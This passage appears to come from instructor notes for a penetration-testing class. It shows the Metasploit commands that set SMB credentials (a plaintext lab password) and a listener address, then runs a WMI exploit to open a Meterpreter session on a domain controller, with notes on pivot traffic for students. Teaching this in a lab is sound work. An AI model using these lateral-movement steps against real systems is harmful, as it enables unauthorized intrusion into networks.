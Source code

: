 	- `set SMBUser bbanner`
	
	- `set SMBPass Winter2021`
	
	- `set LHOST 172.22.117.100`
	
	And run the payload:
	
	- `run -j`

	 ![A screenshot depicts the module settings.](Images/wmioptions.PNG)	
	
3. Run the exploit. It may give an error, but should return another Meterpreter session on the WINDC01 machine.

	- `run`
	
	- `sysinfo`

	 ![A screenshot depicts the successful run and info of the system.](Images/wmiexploit.PNG)		
	
Explain to students that we successfully launched the WMI exploit from our Meterpreter session on Windows 10 to WINDC01. From a network traffic perspective, the exploit content occurred between Windows 10 and WINDC01, instead of Kali to WINDC01. 
